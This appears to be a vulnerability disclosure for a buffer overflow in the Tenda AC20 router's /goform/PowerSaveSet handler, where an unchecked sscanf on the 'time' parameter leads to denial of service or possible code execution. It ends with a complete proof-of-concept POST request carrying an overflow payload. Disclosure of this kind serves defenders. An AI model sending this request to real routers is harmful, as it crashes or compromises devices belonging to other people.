


# Information


**Vendor of the products:**   Shenzhen Tenda Technology Co.,Ltd.

**Vendor's website:** https://www.tenda.com.cn/

**Affected products:** AC20

**Affected firmware version:** <=  V16.03.08.12

**Firmware download address:** [AC20_服务支持_腾达Tenda官方网站](https://www.tenda.com.cn/product/help/AC20#download)

# Overview

A buffer overflow vulnerability was discovered on the latest version of the Tengda AC20 router,  V16.03.08.12, where an attacker sent a carefully constructed http post packet to the request path `/goform/PowerSaveSet` triggered, resulting in a denial of service attack or even RCE, specifically through the function sscanf(s, "%[^:]:%[^-]-%[^:]:%s", v7, v8, v9, v10); implemented, because there is no boundary check on the s

# Vulnerability details

When the powerSavingEn, time, powerSaveDelay, and ledCloseType values are not empty, they will enter the if judgment and eventually cause an overflow through sscanf




# POC

```
POST /goform/PowerSaveSet HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36
Accept: text/plain, */*; q=0.01
X-Requested-With: XMLHttpRequest
Referer: http://192.168.0.1/main.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 485

powerSavingEn=1&time=uaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaadzaaebaaecaaedaaeeaaefaaegaaehaaeiaaejaaekaaelaaemaaenaaeoaaepaaeqaaeraaesaaetaaeuaaevaaewaaexaaeyaaezaafbaafcaaf&powerSaveDelay=1&ledCloseType=1
```

